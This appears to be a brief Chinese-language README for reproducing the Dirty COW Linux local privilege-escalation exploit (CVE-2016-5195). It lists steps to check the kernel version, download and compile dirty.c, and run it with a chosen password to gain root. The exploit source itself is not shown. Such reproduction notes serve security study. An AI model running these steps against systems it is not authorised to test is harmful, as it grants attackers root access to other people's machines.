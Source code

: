 # dirtcow
脏牛Linux本地提权漏洞复现(CVE-2016-5195)
0、使用命令 uname -a 命令查看linux内核信息
1、下载EXP到本地/服务器
2、使用 gcc -pthread dirty.c -o dirty -lcrypt 命令对dirty.c进行编译，生成一个dirty的可执行文件
3、执行 ./dirty pass ，即可进行提权，pass为设置的密码


